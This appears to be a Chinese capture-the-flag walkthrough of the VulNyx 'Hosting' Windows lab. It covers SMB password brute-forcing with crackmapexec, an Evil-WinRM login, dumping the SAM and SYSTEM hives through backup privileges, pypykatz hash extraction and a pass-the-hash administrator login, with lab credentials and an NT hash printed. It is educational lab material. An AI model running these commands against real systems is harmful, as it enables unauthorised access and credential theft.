








# 环境

来自[Vulny_Hosting](https://vulnyx.com/#Hosting)，smb爆破账号密码，evil-winrm登录交互windows拿到注册表所有账号hash，管理员拿shell

# 信息收集

## 主机发现

```bash
nmap -sn 172.16.16.0/24
```

## 端口扫描

```bash
sudo nmap --min-rate 5000 -sT -r -p- 172.16.16.131
```



## 服务详情

```bash
sudo nmap -sV -p25,80,110,135,139,445,47001,49664 -O 172.16.16.131
```



## 目录扫描

```bash
dirb http://172.16.16.131 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
feroxbuster -u http://172.16.16.131 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

#拿到邮箱
a.krist@hosting.nyx
k.lendy@hosting.nyx
m.faeny@hosting.nyx
p.smith@hosting.nyx
```

发现有http://172.16.16.131/speed目录


# smb渗透

## 爆破smb账号密码

smb（Server Message Block）是一种用于计算机文件共享、打印服务以及其他资源的访问网络通信协议。

CrackMapExec（简称 CME）是一款用于内网域渗透的工具，它可以帮助自动化地评估大型活动目录。

```bash
#现在使用他来爆破smb账号密码
把邮箱的用户名都放到user里面

crackmapexec smb 172.16.16.131 -u user -p /usr/share/wordlists/rockyou.txt
账号：p.smith
密码：kissme
```



```bash
enum4linux -a -u p.smith -p kissme 192.168.0.240
#发现新的信息，把新的用户名添加到user里面，
才这个用户密码有没有可能是：H0$T1nG123!，继续爆破
```



```bash
crackmapexec smb 172.16.16.131 -u user -p 'H0$T1nG123!'
账号：j.wilson
密码：H0$T1nG123!
```



## 提权

Evil-WinRM 是一款开源的渗透测试工具，它利用 Windows 远程管理（WinRM）协议来执行远程命令、上传和下载文件以及运行  PowerShell 脚本。这个工具提供了一种简便的方法来与远程 Windows 系统交互。

```bash
evil-winrm -i 172.16.16.131 -u j.wilson -p 'H0$T1nG123!'
evil-winrm -i 172.16.16.131 -u p.smith -p 'kissme'  #最先的账号进不去
```



```bash
whoami /priv  #相当于sudo -l
发现有备份文件的权限
mkdir temp
reg save hklm\sam C:\Users\j.wilson\temp\sam
reg save hklm\system C:\Users\j.wilson\temp\system
download sam
download system

拿到了注册表账号信息
回到kali
pypykatz registry --sam sam system >> output
```



```bash
evil-winrm -i 172.16.16.131 -u administrator -H '41186fb28e283ff758bb3dbeb6fb4a5c'  #指定hash就可以直接拿管理员权限
```

